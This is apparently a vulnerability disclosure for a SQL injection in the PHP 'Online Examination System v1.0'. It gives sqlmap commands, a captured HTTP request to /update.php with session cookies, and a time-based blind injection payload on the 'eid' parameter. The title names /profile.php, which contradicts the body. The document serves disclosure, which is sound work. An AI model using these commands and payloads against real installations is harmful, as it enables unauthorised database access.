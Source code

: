 # SQLi vulnerability in Online Examination System v1.0 of file /profile.php

**vender**:

- Online Examination System

**SoftLink**:

- https://projectworlds.in/free-projects/php-projects/online-examination/

**Vulnerable File**

- /update.php

**Version**

- V1.0

### POC

```bash
sqlmap -r request.txt --level 5 --batch
```



```http
GET /online-examination-systen/update.php?q=quizre&step=25&eid=1 HTTP/1.1
Host: 192.168.129.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: PHPSESSID=v43kk28qqva4ntobshvd2bhfm7; G55gnuboard5PHPSESSID=nm79ejnaiinb8lddnkihea90q4; 2a0d2363701f23f8a75028924a3af643=MTkyLjE2OC4xMjkuMQ%3D%3D; 2e61f26e7a4e8194d3d5d054536403e0=MTZhMzRlM2E0ZGM2YWZjMWIwZGQxMmUxYjg4MGRjOGU%3D; 6e1280981e1dfd9169c5dea9c28ff2e3=YWRtaW4%3D; a3e94372a6379bc1ae3698dfdf38595b=ZDA1MWM3MTM1ZDZhMDc0YjJjOWExYjNmNmM4YTM3MTA%3D
Upgrade-Insecure-Requests: 1
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
```



```bash
sqlmap -r request.txt --level 5 --random-agent 
```



```
---
Parameter: eid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: q=quizre&step=25&eid=1' AND (SELECT 7803 FROM (SELECT(SLEEP(5)))vvPI)-- aGgZ
---
```

![image.png](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505310414826.png)

